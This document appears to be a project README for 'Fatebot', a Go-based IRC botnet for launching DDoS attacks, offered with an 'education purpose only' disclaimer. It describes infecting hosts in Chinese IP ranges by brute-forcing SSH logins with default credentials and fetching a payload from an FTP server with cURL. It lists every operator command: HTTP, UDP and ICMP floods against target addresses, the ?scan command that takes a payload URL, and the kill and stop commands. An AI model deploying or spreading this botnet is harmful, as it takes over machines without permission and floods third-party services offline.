<h2>Attention Attention!!! My english is terrible. I'm so sorry about that :( </h2>

# Fatebot
This is my first IRC bot for launch ddos attack, Write on Go language. For education purpose only. Please test it on your lab, And i create this for join university in the future not for attack anyone server with out any permission!!!

<strong>IRC commands are in the bottom of The page.</strong>

<img src="img/drfate.png" alt="Dr Fate">

# Infect
The infect function of this botnet is scanning by SSH port<strong>(default as 22)</strong> and login by dictionary attack.
like username "admin" and password "123456". <strong>(Scan by range of CHN network. You can add more if you want.)</strong>

This botnet use cURL to get payload from FTP server, so... please prepair your FTP server first, It very important for infect process.

<strong>[SCAN PROCESS]</strong>
<img src="img/scan process.png" alt="SSH scan">


# DDoS
Raw socket programming is really hard for me and I don't know about exploit development,
But raw socket need it(exploit) to get a permission for run it. So in <strong>The volumetric</strong> all of them are a simple udp and icmp flood. so DDoS function is really hard and challenge for me.

# IRC Commands
<ul>
  <li><strong>?http [url]</li></strong>
    <ul>
      <li>?http https://target.com/</li>
      - Flood HTTP get request to target.
    </ul>
</ul>

<ul>
  <li><strong>?udp [ip] [size]</li></strong>
    <ul>
      <li>?udp 192.168.1.1 500</li>
      - Flood UDP packets by random src and dst port to target. Min and Max of Buffer is 1 - 700bytes.
    </ul>
</ul>

<ul>
  <li><strong>?icmp [ip]</li></strong>
    <ul>
      <li>?udp 192.168.1.1</li>
      - Flood ICMP packets to target.(I know it's a old school DoS, lol.)
    </ul>
</ul>

<ul>
  <li><strong>?scan [ftp server]</li></strong>
    <ul>
      <li>?scan ftp://192.186.1.1/payload</li>
      - Scan CHN ip range on SSH port and get payload with cURL.
    </ul>
</ul>

<ul>
  <li><strong>?kill</li></strong>
    <ul>
      - Remove payload on bot machine and left the server.
    </ul>
</ul>

<ul>
  <li><strong>?stop.ddos</li></strong>
    <ul>
      - Stop ddos attacking.
    </ul>
</ul>

<ul>
  <li><strong>?stop.scan</li></strong>
    <ul>
      - Stop scanning.
    </ul>
</ul>
